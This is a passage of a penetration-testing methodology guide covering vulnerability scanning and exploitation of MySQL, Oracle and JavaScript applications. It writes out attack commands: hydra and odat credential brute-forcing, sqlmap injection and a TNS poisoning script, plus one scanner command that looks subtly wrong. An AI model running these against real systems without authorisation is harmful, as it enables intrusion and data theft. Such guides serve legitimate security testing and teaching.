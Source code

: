 
## **🔴 PHASE 3: Vulnerability Assessment**
- Use automated tools to scan for vulnerabilities.
- Cross-check results with **manual testing** to reduce false positives.

```bash
# Run Nessus or OpenVAS (GUI-based vulnerability scanner)
openvas -sV -A <TARGET_IP>
```

- Map vulnerabilities to CVE databases.
- Identify misconfigurations, outdated software, and missing patches.

---

## **🟠 PHASE 4: Exploitation & Attack Scenarios**
This section details how to exploit each service.

### **1️⃣ MySQL Penetration Testing**
#### **Step 1: Check for Weak Authentication**
```bash
hydra -L userlist.txt -P passlist.txt mysql://<TARGET_IP>
```
#### **Step 2: Check for Misconfigured User Permissions**
```sql
SELECT user, host FROM mysql.user;
```
#### **Step 3: SQL Injection Testing**
Use SQLmap for automated SQL Injection testing.
```bash
sqlmap -u "http://target.com/page.php?id=1" --dbs
```

---

### **2️⃣ Oracle Database Penetration Testing**
#### **Step 1: Enumerate Oracle Services**
```bash
nmap --script=oracle-sid-brute,oracle-tns-version <TARGET_IP>
```
#### **Step 2: Exploit Weak Authentication**
```bash
odat passwordguesser -s <SID> -d <TARGET_IP> -U usernames.txt -P passwords.txt
```
#### **Step 3: Exploit TNS Poisoning**
```bash
python tns_poison.py -t <TARGET_IP> -p 1521
```

---

### **3️⃣ Custom JavaScript Application Penetration Testing**
#### **Step 1: Identify Endpoints**
- Use **Burp Suite** to map the API and endpoints.
